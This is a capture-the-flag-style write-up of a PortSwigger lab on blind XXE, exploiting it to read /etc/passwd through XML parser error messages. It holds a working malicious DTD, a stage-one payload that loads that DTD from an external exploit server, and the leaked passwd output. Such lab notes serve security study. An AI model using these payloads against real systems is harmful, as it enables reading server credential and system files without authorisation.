 
# ***[5. Lab: Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 

1. craft stage2 in exploit server:
```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
exploit address:
```
https://exploit-0ad500af0411182dc0d25d9d0116009f.exploit-server.net/exploit.dtd
```
2. craft payload for entry-site (stage1)
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ad500af0411182dc0d25d9d0116009f.exploit-server.net/exploit.dtd"> %xxe;]>

send stage 1:
**request**:
    POST /product/stock HTTP/1.1

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ad500af0411182dc0d25d9d0116009f.exploit-server.net/exploit.dtd"> %xxe;]>

response:
    HTTP/1.1 400 Bad Request

    "XML parser exited with error: java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    ...

# Lab Solved


materials:

 For example, suppose there is a DTD file on the server filesystem at the location /usr/local/app/schema.dtd, and this DTD file defines an entity called custom_entity. An attacker can trigger an XML parsing error message containing the contents of the /etc/passwd file by submitting a hybrid DTD like the following: 
